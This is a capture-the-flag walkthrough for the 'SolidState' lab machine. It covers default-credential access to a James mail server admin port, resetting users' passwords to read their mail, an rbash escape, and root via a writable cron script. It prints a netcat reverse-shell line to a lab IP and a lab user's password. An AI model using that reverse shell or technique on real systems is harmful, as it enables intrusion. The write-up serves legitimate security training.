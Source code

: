 # SolidState

### Machine Info
![](screenshots/solidstate.png)

#### Nmap
![](screenshots/nmap_full.png)


##### James Server

First I just searched for `James` for public exploits:
![](screenshots/james_vuln.png)

`James Server 2.3.2` is vulnerable to `RCE (Remote Code Execution)`. I just read the exploit `35513.py` to get a direction.

##### Exploit

From the `James Remote Admin`, which is opened on port `4555`, we can edit and add users. The credential for root was just simple `[root, root]`:
![](screenshots/4555_root.png)

After I access to admin service with root privilege, I found there are 5 users. I just changed the password of them to check their mail server:
![](screenshots/4555_reset.png)

We now have changed the password of users and we can access to their mail server.

login to `john`:
![](screenshots/john.png)

Retrieve mail:
![](screenshots/john_1.png)


login to `mindy` and Retrieve mail:
![](screenshots/mindy_2.png)

The mail includes the password and username of `mindy`, `[mindy:P@55W0rd1!2@]`.

Let's just `ssh` to `mindy`:
![](screenshots/user_shell.png)

We have a shell of user `mindy`.


#### Privilege Escalation

First I tried to change directory, run bash and check environment, I couldn't because we have a restricted shell:
![](screenshots/rbash.png)


Therefore I just ssh again with `-t` option to escape from `rbash` shell:
![](screenshots/rbash_escape.png)


During enumeration to escalate privilege, I found that there is a misconfigured file, `tmp.py`, which is owned by root but have `777` permission:
![](screenshots/tmp.png)

![](screenshots/tmp2.png)


I just thought this could be related to cronjob of root. So I just run [pspy](https://github.com/DominicBreuker/pspy) script to check cronjob related to this file:

![](screenshots/pspy.png)

As we can see from the result, there is a cronjob that executes `/opt/tmp.py` every 3 minutes.


##### Exploit

We have enough permission to change `/opt/tmp.py`, we can easily get reverse shell with root privilege.

Modify `/opt/tmp.py`:
```
#!/usr/bin/env python
import os
import sys
os.system('/bin/nc -e /bin/bash 10.10.14.37 5555')
```

Wait for 3 minutes and from `nc` listener:

![](screenshots/root_shell.png)

And you can get `root.txt` :)
